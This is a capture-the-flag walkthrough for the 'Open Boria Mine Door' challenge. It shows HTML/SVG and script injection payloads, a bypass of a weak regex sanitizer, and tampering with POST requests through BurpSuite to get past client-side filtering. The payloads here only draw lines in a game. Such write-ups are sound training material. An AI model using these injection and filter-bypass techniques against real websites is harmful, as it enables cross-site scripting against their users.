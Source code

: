 ```yaml
---
sidebar_position: 5
---
```


# Open Boria Mine Door

> Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

****

# Open Boria Mine Doors

## Pin 1

Inspecting the HTML source code we see a commented out line containing the keyword to unlock Pin 1. Simply copy and paste the value and you're good to go.

```html
<!-- @&@&&W&&W&&&& -->
```

## Pin 2

The general theme is to inspect the HTML source to find hints to solve the various pins. For Pin 2 we see a todo note to filter out HTML from user input. 

```html
<!-- TODO: FILTER OUT HTML FROM USER INPUT -->
```

The assignment seems to be to draw lines between various connecting dots. The best way to do that is to simply draw a line using the SVG HTML tag, like this: 

```html
<svg height="170" width="200">
  <path d="M0 73 298 194" stroke-width="10" stroke="white"/>2
</svg>
```

## Pin 3

Advancing on, we find a hint regarding Javascript in the HTML source

```html
<!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
```

Simply outputting the SVG tag using Javascript:


```html
<script>
document.write('
<svg height="170" width="200">
  <path d="M0 95 280 1" stroke-width="10" stroke="blue"/>2
</svg>
');
</script>
```

## Pin 4

For this pin there are no commented out hints, but we find a sanitation script present which simply replaces the first occurrences of each special char;

```html
<script>
    const sanitizeInput = () => {
        const input = document.querySelector('.inputTxt');
        const content = input.value;
        input.value = content
            .replace(/"/, '')
            .replace(/'/, '')
            .replace(/</, '')
            .replace(/>/, '');
    }
</script>
```

Padding the input with <\> simply unlocked the pin:

```html
<>
<svg height="170" width="200">
  <path d="M0 40 280 40" stroke-width="10" stroke="white"/>2
  <path d="M0 130 280 130" stroke-width="10" stroke="blue"/>2
</svg>
```

## Pin 5

The script from last pin has been extended to now filtrate out every occurrences.

```html
<script>
        const sanitizeInput = () => {
            const input = document.querySelector('.inputTxt');
            const content = input.value;
            input.value = content
                .replace(/"/gi, '')
                .replace(/'/gi, '')
                .replace(/</gi, '')
                .replace(/>/gi, '');
        }
</script>
```

However, this happens only on client side. If we pass the POST request through BurpSuite proxy we can insert our trusty SVG tag:

```html
inputTxt=<script>document.write('<svg height="170" width="200"><path d="M35 170 210 90" stroke-width="10" stroke="blue"/><path d="M0 135 210 40" stroke-width="10" stroke="red"/></svg>');</script>
```

## Pin 6

No hint available here - but we are still in BurpSuite land manipulating the POST request directly:

```html
inputTxt=<svg height="170" width="200"><path d="M0 35 210 35" stroke-width="10" stroke="lime"/><path d="M0 75 240 115" stroke-width="10" stroke="red"/><path d="M0 115 150 170" stroke-width="10" stroke="blue"/></svg>
```

## All pins unlocked

![All pins solved](/img/web-ring/pins.png)
